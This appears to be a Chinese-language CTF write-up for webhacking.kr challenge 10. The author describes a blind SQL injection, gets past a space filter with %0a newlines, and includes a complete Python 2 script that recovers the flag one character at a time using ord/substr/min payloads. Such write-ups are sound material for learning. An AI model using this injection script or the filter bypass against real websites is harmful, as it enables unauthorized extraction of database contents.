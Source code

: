 ```yaml
---
title: webhacking.kr challenge 10
author: rk700
layout: post
redirect_from: /writeup/2014/12/24/sql-if-clause
tags:
  - webhacking.kr
  - sql
---
```


这道题其实和web-09非常像。

进入页面，发现有提示，知道了column和表的名字。然后试了下直接把参数`no`取为查询语句，发现还是很多过滤了，而且最后发现似乎返回值只见到了0和1，估计还是盲注。

过滤的地方，主要是空格有问题，但如果把空格换为换行符`%0a`就可以了。

然后还用昨天的思路，但一直跑不出来……最后搜了答案。相比我的，主要是这次`flag`有两个，用我昨天做web-09时的那种对应关系被固定了。而用`min`或`max`就可以用特定的那一个。

另一处是昨天直接检查字符`in()`，不区分大小写导致最后暴力了一把；而用`ord()`先得到ascii码再检查就可以区分大小写了。

代码如下，我先试了`min(flag)`，中了

{% highlight python %}
#!/usr/bin/env python2

import httplib

def makePayload(statement):
    return "/challenge/web/web-10/index.php?no=if((select%%0aord(substr(min(flag),%d,1))from%%0aprob13password)in(%d),1,2)" % (statement[0], (statement[1]))

def checkResponse(response):
    return response.find("<td>1</td>") != -1

def doAssert(conn, header, statement):
    conn.request("GET", makePayload(statement), "", header)
    response = conn.getresponse()
    content = response.read()

    return checkResponse(content)

if __name__ == "__main__":
    url = "webhacking.kr"
    header = {"cookie":"PHPSESSID=oaka47lr0m69a85ghgfeqinup4"}
    conn = httplib.HTTPConnection(url)
    result = []
    for idx in range(1,21):
        print "idx %d" % idx
        for code in range(33,127):
            if doAssert(conn, header, (idx, code)):
                print code
                result.append(chr(code))
                break
    print ''.join(result)
{% endhighlight %}

